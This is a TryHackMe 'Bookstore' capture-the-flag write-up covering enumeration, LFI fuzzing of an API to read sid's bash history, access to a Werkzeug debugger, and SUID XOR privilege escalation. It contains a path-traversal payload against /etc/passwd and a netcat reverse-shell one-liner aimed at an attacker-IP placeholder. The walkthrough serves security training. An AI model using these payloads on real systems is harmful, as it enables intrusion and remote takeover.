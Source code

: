 ```yaml
---
title: TryHackMe - Bookstore 
category: writeup
tags: tryhackme
---
```

https://tryhackme.com/room/bookstoreoc
# Summary

Book store is a medium rated machine on TryHackMe that involves doing some basic web enumeration, fuzzing the REST API to find a parameter that is vulnerable to Local File Inclusion allowing us to retrieve the PIN for the Werkzeug console leading code execution on the system. The privesc is done by finding the `try-harder` binary which takes an integer as an input which is XOR'd with 2 other integers and spawn's a shell if the input integer matches.

# Enumeration

### NMAP

Doing a TCP NMAP scan reveals the following:

```bash
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCs5RybjdxaxapwkXwbzqZqONeX4X8rYtfTsy7wey7ZeRNsl36qQWhTrurBWWnYPO7wn2nEQ7Iz0+tmvSI3hms3eIEufCC/2FEftezKhtP1s4/qjp8UmRdaewMW2zYg+UDmn9QYmRfbBH80CLQvBwlsibEi3aLvhi/YrNCzL5yxMFQNWHIEMIry/FK1aSbMj7DEXTRnk5R3CYg3/OX1k3ssy7GlXAcvt5QyfmQQKfwpOG7UM9M8mXDCMiTGlvgx6dJkbG0XI81ho2yMlcDEZ/AsXaDPAKbH+RW5FsC5R1ft9PhRnaIkUoPwCLKl8Tp6YFSPcANVFYwTxtdUReU3QaF9
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCbhAKUo1OeBOX5j9stuJkgBBmhTJ+zWZIRZyNDaSCxG6U817W85c9TV1oWw/A0TosCyr73Mn73BiyGAxis6lNQ=
|   256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAr3xDLg8D5BpJSRh8OgBRPhvxNSPERedYUTJkjDs/jc
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 834559878C5590337027E6EB7D966AEE
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Book Store
5000/tcp open  http    syn-ack ttl 61 Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-title: Home
```

**We have the following observations:**

- Port 80 is open
- Port 22 is open
- Port 5000 is open with an /api entry in the robots.txt file and is running a python web server?.

## Directory scanning

I used feroxbuster to find the files on the website.

[epi052/feroxbuster](https://github.com/epi052/feroxbuster)

### Port 80

```bash
200       6452 http://10.10.188.179/index.html
301        319 http://10.10.188.179/javascript
200       2940 http://10.10.188.179/books.html
301        315 http://10.10.188.179/images
```

### Port 5000

```bash
200        825 http://10.10.188.179:5000/api
200       1985 http://10.10.188.179:5000/console
```

## Web Enumeration

### Port 80

Checking the login.html file reveals the following message in the comments of the source.

```html
<!--Still Working on this page will add the backend support soon, also the debugger pin is inside sid's bash history file -->
```

Looks we are most likely looking for an LFI vulnerability to read the `/home/sid/.bash_history` file which contains the PIN we can use to gain acess to the Werkzeug debugger on port 5000.

Checking the books.html file reveals the following message in the source:

```html
<!--GY4CANZUEA3TIIBXGAQDOMZAGNQSAMTGEAZGMIBXG4QDONZAG43SAMTFEA3TSIBWMYQDONJAG42CANZVEA3DEIBWGUQDEZJAGYZSANTGEA3GIIBSMYQDONZAGYYSANZUEA3DGIBWHAQDGZRAG43CAM3EEA2TIIBXGQQDGNZAGYZCAN3BEA3TQIBXGUQDOMRAGRQSAMZREA2DS=== -->
```

That after being base32 decoded gives a hex string which on being decoded... well gives a youtube link. Find out for yourself 

[CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base32('A-Z2-7%3D',true)From_Hex('Auto')&input=R1k0Q0FOWlVFQTNUSUlCWEdBUURPTVpBR05RU0FNVEdFQVpHTUlCWEc0UURPTlpBRzQzU0FNVEZFQTNUU0lCV01ZUURPTkpBRzQyQ0FOWlZFQTNERUlCV0dVUURFWkpBR1laU0FOVEdFQTNHSUlCU01ZUURPTlpBR1lZU0FOWlVFQTNER0lCV0hBUURHWlJBRzQzQ0FNM0VFQTJUSUlCWEdRUURHTlpBR1laQ0FOM0JFQTNUUUlCWEdVUURPTVJBR1JRU0FNWlJFQTJEUz09PSA)

😤

Admittedly I did fall for it haha.

Further checking the source reveals a the assets/js/api.js file being called which contains the following comment:

```jsx
//the previous version of the api had a paramter which lead to local file inclusion vulnerability, glad we now have the new version which is secure.
```

This is very interesting as there was probably a v1 of the API most likely running on the port 5000 and has a parameter that can be fuzzed for an LFI.

### Port 5000

Checking the /console endpoint reveals a Werkzeug debugger and the PIN for that is available in the bash_history as found earlier.

Checking the /api endpoint reveals the following message:

```
**API Documentation
Since every good API has a documentation we have one as well!
The various routes this API currently provides are:**

/api/v2/resources/books/all (Retrieve all books and get the output in a json format)

/api/v2/resources/books/random4 (Retrieve 4 random records)

/api/v2/resources/books?id=1(Search by a specific parameter , id parameter)

/api/v2/resources/books?author=J.K. Rowling (Search by a specific parameter, this query will return all the books with author=J.K. Rowling)

/api/v2/resources/books?published=1993 (This query will return all the books published in the year 1993)

/api/v2/resources/books?author=J.K. Rowling&published=2003 (Search by a combination of 2 or more parameters)
```

Now we have the following information:

- There is a PIN in sid's bash history file.
- There is a parameter most in the /api/v1/resources/books endpoint which is vulnerable to LFI.

Awesome, now all that is left to do is just FUZZ.

I used ffuf for this and used the following command.

```bash
fuff -u 'http://10.10.1.152:5000/api/v1/resources/books?PARAM=../../../../../../../etc/passwd' -w /opt/SecLists/Discovery/Web-Content/raft-medium-words-lowercase.txt:PARAM
```

We get a hit on the show parameter and checking the bash history gives us the PIN.

After typing in the PIN we get access to the python console from where we can spawn a shell using the following payload.

```python
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker ip> 1337 >/tmp/f")
```

Now we have a shell as sid.

# Privilege Escalation

Looking at the contents of the home directory reveals a interesting `try-harder` binary with a SUID bit set.

Transferring the binary over to my kali machine and taking a look at it in ghidra reveals the following.

```c
void main(void) 
{
  long in_FS_OFFSET;
  uint user_input;
  uint local_18;
  uint local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setuid(0);
  local_18 = 0x5db3;
  puts("What\'s The Magic Number?!");
  __isoc99_scanf(&DAT_001008ee,&user_input);
  local_14 = user_input ^ 0x1116 ^ local_18;
  if (local_14 == 0x5dcd21f4) {
    system("/bin/bash -p");
  }
  else {
    puts("Incorrect Try Harder");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

All this binary does is check if the integer that the user enters XOR'd with `0x1116` and `0x5db3` is equal to `0x5dcd21f4`.

The way XOR works is if you XOR `a = x ^ y ^ z` is the same as `y = a ^ x ^ z` 

We have the `a` which is `0x5dcd21f4` which is being compared to local_14, `x` which is `0x1116` , and `z` which is `0x5db3`

```python
root:book-store/ # python3
Python 3.8.6 (default, Sep 25 2020, 09:36:53) 
[GCC 10.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x5dcd21f4 ^ 0x1116 ^ 0x5db3
1573743953
```

Running the binary and passing in that number gives us a shell as root.

```
sid@bookstore:~$ ./try-harder
What's The Magic Number?!
1573743953
root@bookstore:~#
```
